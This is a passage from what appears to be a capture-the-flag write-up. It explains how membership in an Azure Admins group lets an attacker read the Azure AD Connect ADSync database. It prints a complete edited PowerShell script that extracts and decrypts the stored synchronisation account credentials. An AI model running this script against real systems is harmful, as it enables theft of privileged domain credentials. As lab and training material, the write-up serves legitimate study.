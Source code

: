 ```shell
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
After examining the results, we can see that mhope is part of the group Azure Admins.

## Azure AD Connect Exploitation to obtain Administrator Credentials

Through manual system and folders enumeration, we found traces of Azure AD everywhere. 

Notably, the Microsoft Azure Active Directory Connect service is of particular interest, as it synchronizes the entire Active Directory along with password hashes. This indicates that the service possesses DCSync privileges within the domain.

Doing some research, we found the following documentation about how to exploit Azure AD Connect:
https://blog.xpnsec.com/azuread-connect-for-redteam/

This documentation says that the members of Azure Admins group have read rights on the database ADSync in the MSSQL, which contains the encrypted configuration being used for the Microsoft Azure Active Directory Connect service.

The documentation also contains a PoC script, which requires SQL server with remote connections enabled, but that is not the case here. This means we will need to edit the script.

The edited script looks as follow:

```shell
Write-Host "Retrieving Key_ID, Instance_ID, and Entropy..."
   
$basic_data = (Invoke-SQLCmd "USE ADSync; SELECT keyset_id, instance_id, entropy FROM mms_server_configuration")
   
$key_id = $basic_data.keyset_id
$instance_id = new-object System.Guid($basic_data.instance_id)
$entropy = new-object System.Guid($basic_data.entropy)
   
Write-Host "Collecting Private and Encrypted Configuration..."
$advanced_data = (Invoke-SQLCmd "USE ADSync; SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'")
   
$config = $advanced_data.private_configuration_xml
$crypted = $advanced_data.encrypted_configuration
   
Write-Host "Loading mcrypt.dll and Decrypting the Credentials..."
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
   
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
   
Write-Host "Recovered Azure ADSync Credentials Successfully"
```